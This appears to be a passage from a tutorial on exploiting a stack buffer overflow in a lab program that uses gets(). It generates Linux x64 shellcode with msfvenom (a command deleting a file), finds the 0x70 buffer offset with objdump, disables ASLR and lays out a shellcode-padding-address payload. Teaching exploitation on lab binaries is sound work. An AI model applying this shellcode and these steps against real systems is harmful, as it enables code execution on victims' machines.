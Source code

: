```
buf += b"\x58\x0f\x05"
```

And an other one to remove the hidden file `.tmpdata`:

```
$ msfconsole
...
msf6 > msfvenom -p linux/x64/exec CMD="rm .tmpdata" -b \x00 -f python
[*] exec: msfvenom -p linux/x64/exec CMD="rm .tmpdata" -b \x00 -f python
Overriding user environment variable 'OPENSSL_CONF' to enable legacy functions.
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No badchars present in payload, skipping automatic encoding
No encoder specified, outputting raw payload
Payload size: 48 bytes
Final size of python file: 247 bytes
buf =  b""
buf += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99\x50"
buf += b"\x54\x5f\x52\x66\x68\x2d\x63\x54\x5e\x52\xe8\x0c"
buf += b"\x00\x00\x00\x72\x6d\x20\x2e\x74\x6d\x70\x64\x61"
buf += b"\x74\x61\x00\x56\x57\x54\x5e\x6a\x3b\x58\x0f\x05"
```

Before we start to assemble our payload, we need the offset of variable `buff` relative to `rbp`. This offset and the size of `rbp` (8 bytes) will be the maximum size of our shellcode.

```
$ objdump -d build/bof-server-pie2
...
0000000000001179 <authenticate>:
    1179:	55                   	push   %rbp
...
    11b2:	48 8d 45 90          	lea    -0x70(%rbp),%rax
    11b6:	48 89 c7             	mov    %rax,%rdi
    11b9:	e8 b2 fe ff ff       	call   1070 <gets@plt>
...
```

As we can see the offset is 0x70.

We need the address of `buff` as well which we use to overwrite the return address (our shellcode starts here). To make things simpler I added `printf("%p\n", &buff);` to our POC code. We spawn a [shell with ASLR disabled](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) for simplicity also (ASLR makes exploiting the executable stack a lot more difficult by randomozing the addresses):

```
$ setarch `uname -m` -R /bin/bash
$ build/bof-server-pie2
0x7fffffffdc30
enter the password:
``` 

The whole payload contains:
- shellcode
- padding (if the shellcode size is less than 0x70 + 8 bytes)
- address of `buff` 
